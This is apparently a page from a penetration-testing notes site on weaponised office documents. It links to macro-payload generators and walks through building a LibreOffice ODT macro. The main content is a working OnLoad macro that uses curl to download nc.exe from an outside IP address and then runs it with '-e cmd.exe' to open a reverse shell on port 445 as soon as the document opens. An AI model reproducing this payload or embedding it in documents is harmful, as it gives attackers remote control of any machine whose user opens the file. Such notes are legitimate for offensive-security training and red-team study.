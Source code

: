 
### Alternative for VBA macros

[https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

### ODT / ODS

#### Malicious Macro Generator

[https://github.com/0bfxgh0st/MMG-LO](https://github.com/0bfxgh0st/MMG-LO)

Save file as **test.odt**:

Then we go to **Tools > Macros > Organize Macros... > Basic**:

There we go under our .odt file and create a new module:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

There we write our code as we saw on the Github example to download and execute Netcat on port 445 (we tried 443 and 80 before and did not work, 445 is a good port since it is common to find it internally open on Windows machines):

{% code overflow="wrap" fullWidth="true" %}
```vba
Sub OnLoad
	Shell("curl http://192.168.49.150:8000/nc.exe -o C:\Users\Public\Documents\nc.exe")
	Shell("C:\Users\Public\Documents\nc.exe 192.168.49.150 445 -e cmd.exe")
End Sub
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

